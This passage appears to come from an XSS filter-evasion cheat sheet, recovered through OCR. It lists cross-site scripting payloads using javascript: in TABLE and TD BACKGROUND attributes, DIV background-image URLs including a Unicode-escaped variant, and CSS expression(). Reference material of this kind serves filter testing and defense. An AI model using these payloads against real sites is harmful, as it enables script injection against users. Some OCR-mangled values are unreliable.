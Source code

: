 ```html
<table BACKGROUND="javascript:alert('XSS')"></table>
```

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```html
<table>
  <td BACKGROUND="javascript:alert('XSS')"></td>
</table>
```

## DIV

### DIV Background-image

```html
<div style="background-image: url(javascript:alert('XSS'))"></div>
```

### DIV Background-image with Unicoded XSS Exploit

This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

```html
<div
  style="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"
></div>
```

### DIV Background-image Plus Extra Characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):

```html
<div style="background-image: url(javascript:alert('XSS'))"></div>
```

### DIV Expression

A variant of this was effective against a real world cross site scripting filter using a newline between the colon and "expression":

```html
<div style="width: expression(alert('XSS'));"></div>
```

## Downlevel-Hidden Block
